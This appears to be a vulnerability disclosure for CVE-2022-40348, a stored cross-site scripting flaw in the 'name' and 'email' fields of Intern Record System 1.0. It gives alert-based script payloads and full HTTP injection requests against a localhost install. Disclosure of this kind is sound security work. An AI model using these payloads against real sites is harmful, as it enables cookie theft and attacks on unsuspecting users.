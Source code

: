 # CVE-2022-40348: Intern Record System - 'name' and 'email' Cross-site Scripting (Unauthenticated XSS)
+ **Exploit Title:** Intern Record System - 'name' and 'email' Cross-site Scripting (Unauthenticated XSS)  
+ **Date:** 2022-06-09  
+ **Exploit Author:** Hamdi Sevben  
+ **Vendor Homepage:** https://code-projects.org/intern-record-system-in-php-with-source-code/  
+ **Software Link:** https://download-media.code-projects.org/2020/03/Intern_Record_System_In_PHP_With_Source_Code.zip  
+ **Version:** 1.0  
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53  
+ **CVE:** CVE-2022-40348  

## References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40348
+ https://nvd.nist.gov/vuln/detail/CVE-2022-40348

## 1. Description:
Intern Record System 1.0 allows Stored Cross-site Scripting via parameters 'name' and 'email' in "/intern/controller.php". Intern Record System is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## 2. Proof of Concept:
+ Burpsuite request on 'name' or 'email' parameters with payloads on http://localhost/intern/controller.php
+ Go to http://localhost/intern/view.php page
+ Refresh the page.
+ The XSS will be triggered.
+ Alert will popup.

## 3. Example payload:
+ **Payload-1:** `<script>alert(document.domain)</script>`
+ **Payload-2:** `<script>alert(document.cookie)</script>`

## 4. Burpsuite request on 'name' parameter:  
+ **Injection:**
```
POST /intern/controller.php HTTP/1.1  
Host: localhost  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8  
Accept-Encoding: gzip, deflate  
Accept-Language: en-us,en;q=0.5  
Cache-Control: no-cache  
Content-Length: 78  
Content-Type: application/x-www-form-urlencoded  
Referer: http://localhost/intern/  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36  

name=<script>alert(document.domain)</script>&email=&phone=&deptType=3
```

+ **Identification Page:**
```
GET /intern/view.php HTTP/1.1  
Host: localhost  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8  
Accept-Encoding: gzip, deflate  
Accept-Language: en-us,en;q=0.5  
Cache-Control: no-cache  
Referer: http://localhost/intern/controller.php  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36  
```

## 5. Burpsuite request on 'email' parameter:
+ **Injection:**  
```
POST /intern/controller.php HTTP/1.1  
Host: localhost  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8  
Accept-Encoding: gzip, deflate  
Accept-Language: en-us,en;q=0.5  
Cache-Control: no-cache  
Content-Length: 153  
Content-Type: application/x-www-form-urlencoded  
Referer: http://localhost/intern/  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36  

name=&email=<script>alert(document.cookie)</script>&phone=&deptType=3  
```

+ **Identification Page:**
```
GET /intern/view.php HTTP/1.1  
Host: localhost  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8  
Accept-Encoding: gzip, deflate  
Accept-Language: en-us,en;q=0.5  
Cache-Control: no-cache  
Referer: http://localhost/intern/controller.php  

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36  
```
